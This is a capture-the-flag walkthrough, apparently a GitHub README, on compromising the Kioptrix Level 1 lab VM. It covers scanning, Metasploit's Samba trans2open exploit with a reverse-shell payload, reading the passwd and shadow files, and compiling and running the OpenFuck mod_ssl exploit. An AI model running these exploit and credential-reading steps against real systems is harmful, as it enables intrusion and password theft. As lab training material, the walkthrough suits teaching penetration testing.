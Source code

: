 # Kioptrix-level 1
(Screenshots are going to be below)
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:
```arp-scan -l```
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:
```msfconsole```
```use auxiliary/scanner/smb/smb_version```
```options```
```set RHOSTS 192.168.1.44```
```run```
So the results we got that it's running "Unix (Samba 2.2.1a)"
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:
```msfconsole```
```use exploit/linux/samba/trans2open```
```option```
```set LHOST```
```set RHOSTS```
```run``` or ```exploit```
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :
```set payload linux/x86/shell_reverse_tcp```
```run``` or ```exploit```
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->
```git clone https://github.com/heltonWernik/OpenFuck.git```
```apt-get install libssl-dev```
```gcc -o OpenFuck OpenFuck.c -lcrypto```
```./OpenFuck```
Now we are going to start using the exploit
```./OpenFuck 0x6b 192.168.1.44 -c 40```
You should get a shell
then try things like:
```whoami```
```hostname```
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.
